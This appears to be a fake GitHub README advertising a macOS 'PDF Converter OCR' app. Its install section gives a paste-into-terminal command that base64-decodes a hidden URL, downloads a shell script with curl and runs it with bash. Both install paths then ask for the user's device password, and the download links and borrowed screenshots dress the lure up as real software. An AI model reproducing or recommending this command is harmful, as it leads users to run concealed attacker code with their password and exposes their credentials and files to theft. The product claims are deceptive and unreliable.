 # 🧾 PDF Converter OCR — Advanced PDF Conversion and OCR Software for macOS

PDF Converter OCR is a powerful macOS application designed to convert scanned PDFs and images into editable and searchable documents. Utilizing advanced Optical Character Recognition (OCR) technology, it enables easy extraction of text from images and PDFs for seamless editing and data management.

## ✅ Download PDF Converter OCR for macOS  
[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://shuziktobehuman.github.io/huja/PDFConverter)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download PDF Converter OCR for macOS  
[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://shuziktobehuman.github.io/huja/PDFConverter)

---

## 📦 What is PDF Converter OCR?

PDF Converter OCR allows macOS users to transform scanned PDFs, images, and documents into editable Word, Excel, PowerPoint, and text files. Its high-accuracy OCR engine supports multiple languages and preserves the original layout, making document digitization fast and reliable.

---

## ✨ Features

- 🔍 Accurate OCR conversion from scanned PDFs and images  
- 📄 Convert PDFs to editable Word, Excel, PowerPoint, and Text  
- 🖼️ Supports image to text and image to Word conversions  
- 🌐 Multi-language recognition and layout retention  
- 🖥️ Native macOS support with Retina display optimization  
- 🔄 Batch conversion for multiple files at once  
- 🔐 Secure document processing with local offline OCR  

---

## 💡 Why Use PDF Converter OCR?

- ✅ Quickly digitize scanned documents for editing and sharing  
- 📈 Boost productivity by automating data extraction from PDFs  
- 🔄 Convert various file formats with minimal loss of formatting  
- 🔐 Keep sensitive files secure with offline processing  
- 🧰 Ideal tool for students, professionals, and businesses needing document OCR  

---

[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://pdf-converter-ocr-mac-download.github.io/.github)

---

## 🖼️ Preview

![PDF Converter OCR Screenshot 1](https://www.lightenpdf.com/wp-content/themes/lightenpdf/images/products/pdf-converter-ocr-mac-3.jpg)  
![PDF Converter OCR Screenshot 2](https://www.cisdem.com/images/features/pdfconverterocr/main.jpg)

---

## 📌 Tags

pdf converter ocr, ocr pdf to excel, pdf image to text, ocr to excel, ocr scanning software, ocr2edit,  
scan pdf to text, convert scanned pdf to editable pdf, free ocr pdf, scanned pdf to word converter,  
online ocr pdf to word, convert scanned pdf to word online free, ocr text, convert pdf image to text,  
convert scanned pdf to text, convert scanned pdf to excel, ocr image reader, convert scanned pdf to word free,  
scanned document to word, scan text to word, free ocr pdf to word, scanned pdf to excel, ocr scanner online,  
convert scanned document to word, ocr pdf to word converter, nanonets pdf to excel, convert image to word text,  
pdf converter ocr mac, pdf converter ocr mac download

